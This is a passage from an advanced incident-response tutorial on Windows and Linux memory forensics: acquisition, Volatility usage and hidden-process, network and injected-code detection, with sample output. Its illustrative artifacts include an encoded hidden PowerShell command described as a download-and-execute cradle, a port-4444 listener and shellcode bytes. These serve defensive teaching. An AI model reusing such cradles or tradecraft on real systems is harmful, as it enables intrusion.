








**Level:** Advanced · **Track:** DFIR & Incident Response · **Read time:** 255 min

This is Chapter 4 of the DFIR notebook. Chapter 3 took a verified disk image apart layer by layer and reconstructed what a person did on a machine over hours and days. This chapter narrows the lens to a single instant — the moment a RAM capture was taken — and asks a different, sharper question: *what was this machine actually doing right now?*

Disk forensics answers "what happened". Memory forensics answers "what is happening", frozen mid-stride. A process that unpacked itself entirely in RAM and never wrote a file to disk leaves nothing for Autopsy to find, but it is right there in the memory image: its injected code, its decrypted strings, its open sockets, the command line that launched it, and often the plaintext credentials it just harvested. Fileless malware, packed and encrypted droppers, reflective DLL loads, injected shellcode, in-memory Cobalt Strike and Meterpreter beacons, and the LSASS secrets every attacker wants — all of them are most visible, and sometimes *only* visible, in memory.

Everything in this chapter is written for lawful work: incident response on systems your organisation owns, authorised investigations, malware-analysis labs, and DFIR/CTF images. Analyse only memory you are authorised to analyse, and — exactly as with disk — always work on a copy, and record the hash of the capture before you touch it.

---

## How Deep This Chapter Goes

By the end you should be able to take a raw memory image from a Windows, Linux, or macOS host and:

- Explain why volatile evidence exists, what destroys it, and the order in which you must collect it.
- Acquire memory correctly from a physical host, a hypervisor snapshot, and a cloud instance, and know what each method smears or misses.
- Set up both Volatility 2 and Volatility 3, understand the profile-vs-symbol-table difference, and get symbols for an image the framework doesn't recognise out of the box.
- Enumerate processes three different ways and use the disagreements between them to catch a hidden process.
- Recover command lines, loaded DLLs, open handles, and network connections that no longer exist on disk.
- Find injected and hollowed code with `malfind`, dump it, and hand it to YARA and a disassembler.
- Extract cached credentials, LSA secrets, and registry keys straight out of RAM.
- Build a memory timeline and correlate it with the disk timeline from Chapter 3.
- Defend every finding when someone asks "how do you know that process was hidden?"



---

## Part 1: Why Memory Is Evidence — and Why It's Fragile

Random-access memory is the working surface of a running operating system. Every decrypted secret, every process's private address space, every open network socket, every piece of code the CPU is executing lives in RAM. Much of it is never written to disk at all, by design — a TLS session key, a password typed into a browser, the decrypted body of a packed executable, the plaintext of a ransomware note before it is dropped.

This is exactly why memory is the highest-value, most perishable evidence on a compromised machine, and why the classic **Order of Volatility** (RFC 3227) puts it near the top: you collect the most volatile evidence first, because the act of investigating — or simply the passage of time — destroys it.

| Evidence class | Typical lifetime | Destroyed by |
| --- | --- | --- |
| CPU registers, cache | Nanoseconds | The next instruction |
| RAM (processes, sockets, keys) | Until power loss / reboot | Reboot, memory pressure, malware self-wipe |
| Network state (ARP, routing) | Seconds–minutes | Timeout, interface reset |
| Running processes / kernel state | Until reboot | Process exit, reboot |
| Disk / files | Persistent | Overwrite, wipe, TRIM |
| Backups / archival | Months–years | Retention policy |

The single most important operational consequence: **if a machine is powered off, its RAM is gone.** There is no equivalent of "undelete" for memory once the DRAM loses refresh. (Cold-boot attacks — chilling DRAM to slow decay so it can be re-read after a brief power cycle — exist, but they are exotic and not part of routine IR.) So the very first decision on a live compromised host is usually: *capture memory before you do anything that could reboot it or trigger anti-forensics.*

**IR use case:** on a suspected fileless-malware or ransomware incident, memory capture comes *before* pulling the plug for disk imaging. If you shut down first to image the disk "properly", you throw away the process, the injected code, the C2 socket, and often the encryption key.

### Virtual vs physical memory — the one concept that makes everything else make sense

A memory image is a flat dump of **physical** RAM. But processes never see physical addresses — they see **virtual** addresses, and the CPU's Memory Management Unit (MMU) translates virtual → physical using per-process **page tables** rooted at a register called **CR3** (the Directory Table Base, DTB, on x86/x64).

This matters for two reasons:

1. A process's memory is scattered across physical RAM in 4 KB **pages**, not stored contiguously. To read `notepad.exe`'s address space you must walk its page tables. Volatility does this for you, but understanding it explains why some pages are "paged out" (swapped to disk / `pagefile.sys`) and therefore *not in the image* — you'll see them as unreadable.
2. Volatility finds the OS by locating kernel structures in physical memory and rebuilding the virtual view. The **KDBG** (Kernel Debugger Block) and the list of active processes (`PsActiveProcessHead`) are the anchors it uses.



**Why a page can be missing:** if Windows paged a region out to `pagefile.sys` to reclaim RAM, that data is on disk, not in the RAM image. For full coverage some workflows acquire the pagefile too and feed both to Volatility 3 via layered analysis. For most IR you accept that paged-out regions read as zeroes/unavailable and move on.

---

## Part 2: What Lives in a Memory Image

Before touching a tool, know your prize list. A single Windows RAM image typically contains, all recoverable with Volatility:

- **The full process list** — including exited-but-not-reaped processes and processes deliberately unlinked from the active list to hide.
- **Each process's command line and environment variables** — how it was launched, with what arguments, from what parent.
- **Loaded modules (DLLs / .so)** per process, plus the kernel's driver list.
- **Open handles** — files, registry keys, mutexes (malware often uses a named mutex as an infection marker), events, sections.
- **Network artifacts** — TCP/UDP endpoints, listening ports, remote C2 IPs, even for connections already closed at capture time.
- **Injected / hollowed code** — regions of executable private memory with no backing file, the hallmark of injection.
- **Registry hives**, live in memory, including volatile keys that never hit disk.
- **Credentials** — cached domain hashes, LSA secrets, and, on older/unpatched systems, plaintext via WDigest, exactly what Mimikatz reads.
- **Clipboard, console history, typed commands, and command-shell scrollback.**
- **Encryption keys and decrypted payloads** — the reason ransomware and malware analysts love memory.



---

## Part 3: Acquiring Memory — Do This Right or Everything After Is Garbage

Analysis is only as good as the capture. A bad acquisition — a "smeared" image taken while the system was heavily active, a wrong format, or a tool that itself corrupts state — poisons every downstream conclusion. This part teaches acquisition from scratch for each platform.

### The smear problem (read this first)

On a live, busy system, acquisition is **not** instantaneous. The acquisition tool copies physical RAM page by page while the OS keeps running and modifying those very pages. By the time you copy page N, the page tables you read at page 1 may have changed. This is **page smear** (a.k.a. inconsistency), and it causes Volatility errors like "cannot find DTB" or processes with impossible structures.

Mitigations:

- Prefer a tool that pauses the system as briefly as possible / uses a consistent snapshot.
- On a VM, take a **hypervisor-level snapshot** — it's atomic and smear-free, the gold standard.
- Capture as early as possible on lightly loaded systems; note load in your report.
- Volatility 3 tolerates smear far better than Volatility 2 did.

### Windows acquisition

**WinPmem** (the open-source successor to the old `win32dd`/`win64dd`, now maintained under the Velociraptor project) is the workhorse. It ships as a single signed executable and produces a raw or AFF4 image.

Teach-from-scratch: WinPmem is a user-mode tool that loads a small signed kernel driver to map physical memory, then copies it out. You run it from an admin prompt, ideally from removable media so you don't write to the evidence disk.

```powershell
# Run as Administrator, output to an external drive E:\
# .raw = flat physical memory image (what Volatility wants)
winpmem_mini_x64_rc2.exe E:\case42-mem.raw

# Sample tail of output:
# ... Driver Unloaded.
# Acquisition completed. 17179869184 bytes written.   # 16 GB host
```

Immediately hash it — the hash is your integrity anchor, exactly as with a disk image (Chapter 2):

```bash
sha256sum case42-mem.raw > case42-mem.raw.sha256
# 9f2c...e11  case42-mem.raw
```

Other Windows options and when to use them:

| Tool | Format | Notes |
| --- | --- | --- |
| **WinPmem** | raw / AFF4 | Open-source, signed driver, scriptable. Default choice. |
| **DumpIt** (Comae/Magnet) | raw / Microsoft crash dump | One-click, very common in IR kits. |
| **Magnet RAM Capture** | raw | Free, GUI, tiny footprint. |
| **FTK Imager** | raw / AD1 | Also images disk; familiar to many examiners. |
| **Belkasoft RAM Capturer** | raw | Handles some anti-debug tricks. |
| **LiveKD / hyperv** | crash dump | For Hyper-V guests via the host. |

**Anti-forensics reality:** advanced malware can hook or block the WinPmem driver, or crash the box if it detects acquisition. This is rare in commodity incidents but real in targeted intrusions — another argument for VM snapshots when the target is virtual.

### Linux acquisition

Linux has no signed-driver ecosystem, so you build a kernel module matched to the *exact* running kernel.

**LiME** (Linux Memory Extractor) is the standard loadable kernel module. It must be compiled against headers matching `uname -r` on the target (or cross-compiled to match).

```bash
# On a build host with matching kernel headers:
git clone https://github.com/504ensicsLabs/LiME
cd LiME/src && make
# produces lime-<kernelversion>.ko

# On the target (root), dump to a listening netcat or a file on external media:
sudo insmod ./lime-5.15.0-91-generic.ko "path=/mnt/usb/mem.lime format=lime"

# format options: raw | padded | lime  (lime = self-describing, preferred)
```

**AVML** (Acquire Volatile Memory for Linux, from Microsoft) is often easier — a static binary that reads `/proc/kcore` or `/dev/crash` / `/dev/mem` without compiling a module:

```bash
sudo ./avml case42-linux.lime
# Produces a LiME-format image, no kernel module build required.
```

### macOS acquisition

Modern macOS (SIP + Apple Silicon) has largely closed off third-party memory acquisition; **osxpmem** (part of the pmem suite) works on older, Intel, SIP-relaxed systems. On locked-down modern Macs, full memory capture is frequently not feasible without specialised/enterprise tooling — document the limitation in your report rather than forcing an unreliable method.

### Virtual machines — the easy mode you should exploit

If the target is a VM, you usually do **not** need an in-guest tool at all. The hypervisor already has a consistent copy of guest RAM on disk:

| Platform | Memory file | How to get a clean copy |
| --- | --- | --- |
| VMware (ESXi/Workstation/Fusion) | `.vmem` (+ `.vmss`/`.vmsn`) | Suspend the VM → `.vmem` appears next to the `.vmdk`; or take a snapshot. |
| VirtualBox | `.sav` / core dump | `VBoxManage debugvm <vm> dumpvmcore --filename mem.elf` |
| Hyper-V | `.bin`/`.vsv` or `.vmrs` | Save state, or use LiveKD; convert as needed. |
| QEMU/KVM | via monitor | `virsh dump --memory-only <domain> mem.dump` or QMP `dump-guest-memory`. |
| Cloud (AWS/Azure/GCP) | snapshot / AVML in-guest | Run AVML/WinPmem in the instance, or use provider forensic snapshot features. |

A VMware `.vmem` from a **suspended** VM is atomic and smear-free — treat it as the ideal image whenever you have it. Volatility reads `.vmem` directly.



### Format choices

- **Raw / `.raw` / `.dd` / `.mem`** — a flat physical dump. Universally supported; the safest default. Large (equals RAM size).
- **LiME format** — self-describing (records physical address ranges), avoids padding huge gaps; standard on Linux.
- **AFF4** — compressed, can bundle metadata and the pagefile; WinPmem's richer format.
- **Microsoft crash dump (`.dmp`)** — what DumpIt/BSOD produces; Volatility 3 handles it, some plugins prefer raw.
- **VMware `.vmem` + `.vmsn`** — hypervisor snapshot; feed the `.vmem` to Volatility, the `.vmsn` carries CPU/register state.

---

## Part 4: The Volatility Framework From Zero

**Volatility** is the open-source memory-forensics framework — a Python toolkit that parses the internal data structures of an operating system out of a raw memory image and presents them as processes, sockets, DLLs, registry keys, and so on. It is to RAM what The Sleuth Kit (Chapter 3) is to disk. There are two living generations, and you must understand both because real-world images and write-ups use each.

### Volatility 2 vs Volatility 3

| Aspect | Volatility 2 | Volatility 3 |
| --- | --- | --- |
| Language | Python 2 (EOL) | Python 3 |
| OS identification | **Profiles** (e.g. `Win7SP1x64`) chosen by hand | **Symbol tables** (ISF JSON) auto-selected |
| First step | `imageinfo` to guess profile | `windows.info` (no profile needed) |
| Plugin names | `pslist`, `malfind`, `netscan` | `windows.pslist`, `windows.malfind`, `windows.netscan` |
| Symbols | Baked-in profiles | Downloaded/generated PDB & ISF symbol tables |
| Status | Legacy, still needed for old profiles/plugins | Actively developed, default for new work |
| Smear tolerance | Poor | Much better |

Practical guidance: **use Volatility 3 by default.** Reach for Volatility 2 when you need a plugin that hasn't been ported (some registry/GUI plugins, certain community plugins), or when following older documentation/CTF write-ups that assume it.

### Profiles vs symbol tables — the core mental model

Volatility can't parse an image until it knows the *exact* build of the OS, because kernel structures shift between versions and service packs.

- **Volatility 2** solved this with **profiles**: a compiled description of one OS build (`Win7SP1x64`, `Win10x64_19041`, `LinuxUbuntu2004x64`). You picked one, often after running `imageinfo` to get a suggestion.
- **Volatility 3** replaced profiles with **ISF (Intermediate Symbol Format) symbol tables** — JSON files derived from the OS's debug symbols (Microsoft **PDB** files for Windows kernels, DWARF for Linux/Mac). Vol3 downloads the matching Windows symbol table automatically from the symbol server based on the kernel's GUID found in the image. For Linux/Mac you must **generate** the ISF yourself from the target kernel's debug info using `dwarf2json`.

**This is the number-one beginner blocker:** "Volatility 3 works instantly on my Windows image but fails on my Linux image." That's expected — Windows symbols are auto-fetched; Linux/Mac symbols you build.

### Installing Volatility 3 (and 2) on Kali

```bash
# Volatility 3 (recommended) — Python 3
sudo apt update
pip3 install volatility3            # or: pipx install volatility3
# Or from source (latest plugins):
git clone https://github.com/volatilityfoundation/volatility3
cd volatility3 && pip3 install -e .

vol -h                              # 'vol' is the Vol3 entrypoint
vol --version

# Volatility 2 (legacy) — needs Python 2 + deps; use a container or venv
git clone https://github.com/volatilityfoundation/volatility  # vol2
python2 vol.py -h
# Kali also ships 'volatility' (v2) and 'vol3' packages in some releases:
sudo apt install volatility3
```

Two ways to invoke Volatility 3 depending on install: `vol` (pip/pipx entrypoint) or `python3 vol.py` (from a source checkout). This chapter uses `vol` for Vol3 and `vol.py` for Vol2.

### The plugin architecture

Both versions are *frameworks*: a small core plus a large library of **plugins**, each answering one question about the image. In Vol3, plugins are namespaced by OS: `windows.*`, `linux.*`, `mac.*`. You'll spend 90% of your time in a dozen of them.



---

## Part 5: First Contact — Identify the Image

Never run analysis plugins blind. Step one is always: *what OS, build, and architecture is this, and is the image sane?*

### Volatility 3

```bash
# Vol3 does NOT need a profile. windows.info reads the KDBG/kernel base
# and fetches the matching symbol table automatically.
vol -f case42-mem.raw windows.info
```

Annotated sample output:

```
Variable            Value
Kernel Base         0xf80067a00000
DTB                 0x1aa000
Symbols             file:///.../symbols/windows/ntkrnlmp.pdb/....json.xz
Is64Bit             True
IsPAE               False
primary             0 WindowsIntel32e
NtSystemRoot        C:\Windows
NtProductType       NtProductWinNt
NtMajorVersion      10
NtMinorVersion      0
KdVersionBlock      -
Major/Minor         15.19041      # Windows 10, build 19041 (20H1)
KeNumberProcessors  4
SystemTime          2027-03-11 04:12:07   # capture time in UTC — anchor your timeline
```

Two fields you will use constantly: the **build** (19041 = Win10 20H1) and **SystemTime** — the UTC clock at the instant of capture, which anchors every timestamp you interpret later.

### Volatility 2 (legacy)

```bash
# Vol2 needs a profile. imageinfo suggests candidates by scanning for KDBG:
python2 vol.py -f case42-mem.raw imageinfo

# Suggested Profile(s) : Win10x64_19041, Win10x64_18362 ...
# KDBG                 : 0xf80067c...
# Number of Processors : 4
# Image date and time  : 2027-03-11 04:12:07 UTC+0000
```

You then pass the profile to every subsequent command with `--profile=`:

```bash
python2 vol.py -f case42-mem.raw --profile=Win10x64_19041 pslist
```

`imageinfo` can be slow and sometimes lists several candidates; `kdbgscan` is more precise if `imageinfo` is ambiguous:

```bash
python2 vol.py -f case42-mem.raw kdbgscan
```

**Pitfall:** if `imageinfo` suggests multiple profiles, pick the one whose build matches and whose `KDBG` scan is clean; a wrong profile yields empty or garbage output, which beginners misread as "nothing found".

---

## Part 6: Processes — Three Views and the Art of the Cross-Check

Processes are the backbone of memory analysis. The key insight that separates a novice from a competent analyst: **there is more than one way to enumerate processes, and malware hides by defeating one method but not the others.** You always run several and compare.

### `pslist` — the honest list (follows the linked list)

`pslist` walks the doubly linked list of `EPROCESS` structures that the OS itself uses (`PsActiveProcessHead`). It's fast and matches Task Manager — which means anything unlinked from that list (a common rootkit trick called **DKOM**, Direct Kernel Object Manipulation) will *not* appear.

```bash
vol -f case42-mem.raw windows.pslist
```

```
PID    PPID  ImageFileName   Offset(V)        Threads  Handles  CreateTime
4      0     System          0xe00...         120      -        2027-03-11 03:40:11
340    4     smss.exe        0xe00...         2        -        2027-03-11 03:40:12
468    460   csrss.exe       0xe00...         11       -        2027-03-11 03:40:14
560    460   wininit.exe     0xe00...         1        -        2027-03-11 03:40:14
664    560   services.exe    0xe00...         6        -        2027-03-11 03:40:15
728    664   svchost.exe     0xe00...         14       -        2027-03-11 03:40:15
3120   2104  explorer.exe    0xe00...         38       -        2027-03-11 03:41:02
4880   3120  powershell.exe  0xe00...         12       -        2027-03-11 04:09:55
5012   4880  rundll32.exe    0xe00...         6        -        2027-03-11 04:10:31
```

### `psscan` — the paranoid list (carves for EPROCESS)

`psscan` ignores the linked list entirely and **scans all of physical memory** for byte patterns (pool tags / structure signatures) that look like `EPROCESS` objects. It therefore finds:

- **Unlinked (hidden) processes** that `pslist` misses.
- **Terminated processes** whose structures haven't been overwritten yet (great for "what ran and exited before capture").

```bash
vol -f case42-mem.raw windows.psscan
```

A process that appears in `psscan` but **not** in `pslist` is a screaming red flag for DKOM hiding.

### `pstree` — parent/child relationships

`pstree` renders the same processes as a hierarchy, which is where anomalies jump out: *why is `powershell.exe`'s parent `explorer.exe` spawning `rundll32.exe`? Why is `svchost.exe` a child of something other than `services.exe`?*

```bash
vol -f case42-mem.raw windows.pstree
```

```
* 664  services.exe
** 728 svchost.exe
* 3120 explorer.exe
** 4880 powershell.exe
*** 5012 rundll32.exe          <-- rundll32 spawned from an interactive PowerShell: suspicious
```

**Red team / attacker view:** legitimate `svchost.exe` is always a child of `services.exe`. An `svchost.exe` parented to `explorer.exe` or with an odd command line is a classic masquerade. Analysts build a mental model of the "normal" Windows process tree (the `System`→`smss`→`csrss`/`wininit`→`services`→`svchost` spine) so deviations stand out.

### `psxview` — the cross-view detector (Volatility 2)

`psxview` is purpose-built for hidden-process hunting: it lists every process and shows, in columns, whether each enumeration method (`pslist`, `psscan`, `thrdproc`, `csrss`, `session`, `deskthrd`, etc.) sees it. A process visible to `psscan` but `False` for `pslist` is almost certainly hidden.

```bash
python2 vol.py -f case42-mem.raw --profile=Win10x64_19041 psxview
```

```
Offset(P)   Name          PID   pslist psscan thrdproc csrss session deskthrd
0x...       evil.exe      6120  False  True   True     False False   False   <-- hidden!
0x...       explorer.exe  3120  True   True   True     True  True    True
```



### Command lines, DLLs, handles, environment

Once a process is interesting, you interrogate it.

**`cmdline` — how was it launched?** The full command line is gold: it reveals encoded PowerShell, LOLBin abuse, downloaded payload URLs, and script paths.

```bash
vol -f case42-mem.raw windows.cmdline
```

```
PID   Process         Args
4880  powershell.exe  powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAG...
5012  rundll32.exe    rundll32.exe C:\Users\Public\update.dll,DllRegisterServer
```

That `-enc` base64 blob is a Base64-encoded (UTF-16LE) PowerShell command — decode it to reveal the real payload, e.g. an `IEX (New-Object Net.WebClient).DownloadString(...)` cradle. **Bug-bounty/CTF tie-in:** decoding an `-enc` blob out of a memory image is a staple of blue-team CTFs (many DFIR rooms on TryHackMe and CyberDefenders images).

**`dlllist` and `ldrmodules`.** `dlllist` walks the loaded-module lists (the PEB's three module lists) for a process. `ldrmodules` cross-checks the three PEB lists against the VAD tree to catch DLLs that were **unlinked** to hide (reflective/injected DLLs that removed themselves from the module lists).

```bash
vol -f case42-mem.raw windows.dlllist --pid 5012
vol -f case42-mem.raw windows.ldrmodules --pid 5012   # look for InLoad/InInit/InMem = False mismatches
```

A module mapped in memory but missing from one or more PEB lists (`False` in a column) is a hallmark of reflective DLL injection.

**`handles` — files, keys, mutexes.** Open handles reveal what a process is touching. Malware frequently creates a **named mutex** as an "only run once" marker — a strong IOC you can then sweep the fleet for.

```bash
vol -f case42-mem.raw windows.handles --pid 5012 | grep -iE 'Mutant|Key|File'
```

```
5012 ... Mutant   \Sessions\1\...\Global\a1b2c3-CAMPAIGN-LOCK   <-- infection-marker mutex (IOC)
5012 ... Key      MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
5012 ... File     \Device\HarddiskVolume2\Users\Public\update.dll
```

**`envars` — environment variables** can reveal injected paths, proxy settings the malware set, or the user context.

```bash
vol -f case42-mem.raw windows.envars --pid 4880
```

---

## Part 7: Network Reconstruction

One of memory forensics' superpowers: recovering network connections that are **gone from every other source** — a short-lived C2 callback that closed before you arrived, a beacon between check-ins, a reverse shell.

### `netscan` — the modern go-to

`netscan` carves the memory pool for network structures (`_TCP_ENDPOINT`, `_TCP_LISTENER`, `_UDP_ENDPOINT`) and reconstructs endpoints even for closed connections. It's the default on Vista+ (including Win10/11).

```bash
vol -f case42-mem.raw windows.netscan
```

```
Offset   Proto  LocalAddr        LocalPort  ForeignAddr     ForeignPort  State        PID   Owner
0x...    TCPv4  10.10.14.7       49712      185.234.72.19   443          ESTABLISHED  5012  rundll32.exe
0x...    TCPv4  10.10.14.7       49688      13.107.42.14    443          ESTABLISHED  4880  powershell.exe
0x...    TCPv4  0.0.0.0          4444       0.0.0.0         0            LISTENING    6120  evil.exe
0x...    UDPv4  0.0.0.0          5353       *               *            -            728   svchost.exe
```

Read this like an analyst:

- `rundll32.exe` talking to `185.234.72.19:443` — a rundll32 making an outbound TLS connection to a raw IP (no domain, unusual port owner) is highly suspicious → **C2 candidate**.
- A process **LISTENING on 4444** — the Metasploit default — owned by `evil.exe` (our hidden PID from `psxview`) → bind shell / handler.
- Correlate the PID column back to `pslist`/`psscan` to attribute each socket to a process.

### `netstat` (Vol3 `windows.netstat`)

Follows kernel structures more like the live `netstat` command; use it as a cross-check against `netscan`, which carves more aggressively (and can surface stale/closed entries `netstat` won't).

**Blue-team usage:** the foreign IPs you extract here become immediate blocklist / threat-intel pivots — drop them into your SIEM (SOC track) to find every other host that talked to the same C2.

---

## Part 8: Finding Injected and Hollowed Code — `malfind` and Friends

This is the heart of malware memory forensics. Modern malware rarely runs as an honest `.exe` on disk; it **injects** code into a legitimate process or **hollows** one out. Memory is where you catch it.

### The concept

Windows tracks every region of a process's virtual address space in a **VAD** (Virtual Address Descriptor) tree. Each region has protection flags (read/write/execute) and, usually, a backing file (the DLL/EXE it was mapped from). Injected shellcode shows a tell-tale signature:

- **Private, committed memory** (not backed by any file), and
- **Marked executable** (`PAGE_EXECUTE_READWRITE`, RWX — legitimate code is rarely RWX), and
- Often containing an **MZ/PE header** or raw shellcode.

`malfind` finds exactly these regions and dumps the first bytes as a disassembly hint.

```bash
vol -f case42-mem.raw windows.malfind
```

```
PID   Process        Start VPN      End VPN        Protection            Notes
5012  rundll32.exe   0x2a0000       0x2a3fff       PAGE_EXECUTE_READWRITE
Disasm:
0x2a0000  4d 5a 90 00  MZ..            <-- PE header in RWX private memory = injected module
0x2a0004  03 00 00 00
...
6120  evil.exe       0x400000       0x41ffff       PAGE_EXECUTE_READWRITE
0x400000  fc 48 83 e4 f0  cld; and rsp,...  <-- classic x64 shellcode prologue (Metasploit)
```

